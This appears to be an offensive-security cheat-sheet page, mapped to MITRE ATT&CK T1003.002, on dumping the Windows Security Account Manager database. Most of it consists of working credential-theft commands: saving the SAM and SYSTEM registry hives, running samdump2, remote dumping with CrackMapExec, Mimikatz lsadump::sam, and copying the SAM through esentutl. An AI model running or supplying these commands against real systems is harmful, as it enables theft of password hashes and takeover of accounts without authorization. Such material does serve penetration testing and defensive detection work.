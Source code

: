 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.002
---
```


# Security Account Manager (SAM)

The Security Accounts Manager (SAM) is a database file in Windows that contains usernames and passwords for local accounts, typically those identified from the `net user` command.

The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command.

```bash
# Manually extracting the SAM
reg save HKLM\sam sam
reg save HKLM\system system

# Analyzing extracted files
samdump2 system sam 

# Dumping the SAM remotely with CrackMapExec
crackmapexec smb $ip -u $username -p $password --sam

# Dumping the SAM with Mimikatz
mimikatz lsadump::sam    
```

It is also possible to [dump the SAM file via esentutl.exe](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe) which comes installed by default with Windows:

```bash
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry" %}

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe" %}
